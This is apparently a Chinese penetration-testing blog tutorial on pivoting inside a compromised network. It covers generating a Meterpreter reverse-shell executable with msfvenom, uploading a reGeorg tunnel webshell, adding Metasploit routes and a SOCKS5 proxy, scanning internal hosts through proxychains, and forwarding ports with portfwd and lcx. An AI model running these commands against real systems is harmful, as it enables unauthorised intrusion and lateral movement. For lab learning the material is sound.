




Meterpreter+Proxychains实现端口转发
本文最后更新于：2 年前
前言
在获得一个meterpreter之后对其内网进行探测和渗透是一个重要步骤。比如你要对肉鸡内网进行端口扫描有几种方法，最直接的就是在肉鸡上下载一个扫描工具，这种方法动静大不推荐。第二种是将内网主机的端口转发到外网进行处理，第三种就是将攻击机代理到目标的内网环境。
端口转发的工具有很多: lcx,meterpreter,earth worm等
说一下端口转发的原理:肉鸡22端口<-->肉鸡随机高端口<-->攻击机上2222高端口<-->攻击机随机高端口<-->攻击机3333端口
端口转发有他的局限性，比如每次只能转发一个端口出来，如果是要扫描内网信息的话，就过于麻烦。所以一个更好的方法就是代理扫描。
代理扫描
http代理转发
如果对方存在web服务，可以使用Regeorg + proxychains。
将reGeorg的tunnel文件上传到肉鸡服务器到网站目录下，攻击机执行python reGeorgSocksProxy.py -p 2333 -u http://test.com/tunnel.php
然后修改proxychains.conf 配置文件，改成socks5 127.0.0.1 2333
在使用proxychains nmap进行扫描就行了
这种方式速度上可能较慢
metasploit+proxychains
要实现这种方式 需要我们先获得一个meterpreter，再设置路由和proxychains。下面细说一下整个流程
先说说我的环境吧：
攻击机: kali
目标主机: windows
首先使用msfvenom生成一个shell后门，将一个meterpreter shell反弹到攻击机上msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f exe > a.exe
因为是测试，杀毒什么的都关了的，所以这里就懒的编码了。
将这个exe文件传到目标主机上待用。
然后接下来使用metasploit。
怕麻烦，所以直接将内容写到一个文件中了

执行 msfconsole -r 上面的文件名
然后再运行a.exe,可以看到弹回一个meterpreter

有了shell 之后 就进行内网代理
先设置路由
2020年12月10日更新：
在meterpreter中使用
run post/multi/manage/autoroute来代替run get_local_subnets和run autoroute -s 192.168.100.0/22，它会自动添加meterpreter会话的子网到当前路由。
run get_local_subnets 查看目标主机路由信息

run autoroute -s 192.168.100.0/22 添加路由(在 -s 前加-d是删除路由)

设置好之后就使用socks5辅助模块
use auxiliary/server/socks5
set srvhost 127.0.0.1
set srvport 1080
run
再配置proxychains.conf 末尾修改成socks5 127.0.0.1 1080就大功告成了
扫描内网端口
proxychains4 nmap -sT -Pn –open 192.168.100.1/22
注意:由于proxychains无法代理icmp的数据包 所以必须添加-Pn参数 即不检测主机是否存活 直接进行端口tcp扫描
补充
其实也可以直接使用msf的辅助模块进行扫描
auxiliary/scanner/portscan 端口扫描
scanner/portscan/syn SYN端口扫描
scanner/portscan/tcp TCP端口扫描
对端口转发的补充
meterpreter也可以实现端口转发
meterpreter > portfwd add -l 55555 -r 192.168.16.1 -p 3306
lcx端口转发
攻击机
lcx -listen 2222 3333 # 2222为转发端口，3333为本机任意未被占用的端口
目标主机
lcx -slave 110.1.1.1 2222 127.0.0.1 3389
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！